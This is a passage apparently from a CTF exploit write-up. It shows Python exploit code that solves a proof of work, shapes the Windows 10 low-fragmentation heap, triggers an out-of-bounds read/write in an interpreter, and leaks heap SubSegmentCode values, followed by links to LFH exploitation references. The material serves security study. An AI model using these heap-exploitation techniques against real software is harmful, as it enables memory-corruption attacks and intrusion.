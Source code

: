 ```python
                if j == i or j == last_chunk:
                    continue
                intersect_idx &= set(pair_xor_map[leaks[i] ^ leaks[j]])
            assert(len(intersect_idx) == 1)  # only one possible index
            idx.append(intersect_idx.pop())

        ref = int(last_chunk == 0)  # choose one non-zero ssc
        offset_ref = stride * idx[ref] + offset
        zero_ssc = SSCEncode(leaks[ref], base, stride, offset, idx[ref], offset_ref)

        idx = [i - 1 for i in idx]
        assert(sorted(idx) == list(range(0, chunk_count)))

        return idx, zero_ssc


    # PoW solving
    pt = p.recvuntil('>>> ')
    pt = pt[pt.find('"')+1:]
    pow_nonce = pt[:pt.find('"')]
    pow_difficulty = int(pt[pt.find('has ')+4:].split()[0])

    log.info('Solving PoW with difficulty {}, nonce "{}"...'.format(pow_difficulty, pow_nonce))
    pow_solved = check_output([r'.\PoWSolver.exe', str(pow_difficulty), pow_nonce]).strip()
    pow_hash = sha3_256(pow_solved + pow_nonce).hexdigest()
    log.success('PoW solved: sha3_256({} || {}) == {}'.format(pow_solved, pow_nonce, pow_hash))

    interp(pow_solved)


    # 0x48 LFH ready, no UserBlocks yet
    # 0x168 LFH UserBlocks #1 at 4AE0, count 0xa (remaining 0x5)

    log.info('Shaping heap...')

    # saturate 0x168 UserBlocks #1
    # this is to easily locate our fake free chunk later on
    for i in range(0x5):
        interp('let fill_168_{} "{}"'.format(i, 'a'*0x40))

    # allocate and saturate 0x48 UserBlocks #1 at 5EF0 (count 0x18)
    # prep several of them to use as integers to go into optimized array
    for i in range(0xd):
        interp('let int{} {}'.format(i, i))
    interp('let int255 0xff')
    for i in range(0x18 - 0xd - 1):
        interp('let fill_48_{} 0'.format(i))

    # allocate and saturate 0x48 UserBlocks #2 at 6700 (count 0x32)
    # these are target chunks to derandomize, so create optimized integer array
    for i in range(0x32):
        interp('letarr var{} 0xd {}'.format(i, ' '.join('int{}'.format(j) for j in range(0xd))))

    log.info('Leaking SubSegmentCode of 0x48-sized target LFH chunks...')

    # copy 0x32 chunks of optimized integer array, triggering OOB RW
    # this goes into 0x48 UserBlocks #3 (count 0x32)
    for i in range(0x32):
        interp('copy cpy{} var{}'.format(i, i))

    # leak next chunk SubSegmentCode of each var chunks
    var_next_ssc = []
    for i in range(0x32):
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf